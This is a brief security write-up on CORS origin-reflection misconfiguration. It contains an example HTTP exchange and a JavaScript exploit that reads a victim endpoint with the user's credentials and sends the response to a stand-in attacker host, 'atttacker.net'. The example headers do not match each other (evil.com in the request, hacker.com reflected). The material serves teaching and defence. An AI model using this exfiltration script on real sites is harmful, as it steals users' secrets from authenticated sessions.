 # Origin Reflection

## Description

Host allows any origin to make requests to it by blindly reflect the Origin header value in `Access-Control-Allow-Origin headers` in responses, which means any website can read its secrets by sending cross-orign requests.

**Severity**: High

## Exploit 
Make requests from any domain you control.

### Example 
**Vulnerable Implementation** 
```http
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: https://evil.com
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://hacker.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

**Exploit**  
This exploit requires that the respective JS script is hosted at `hacker.com`
```javascript
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://victim.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

[code source](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration#vulnerable-example-origin-reflection)
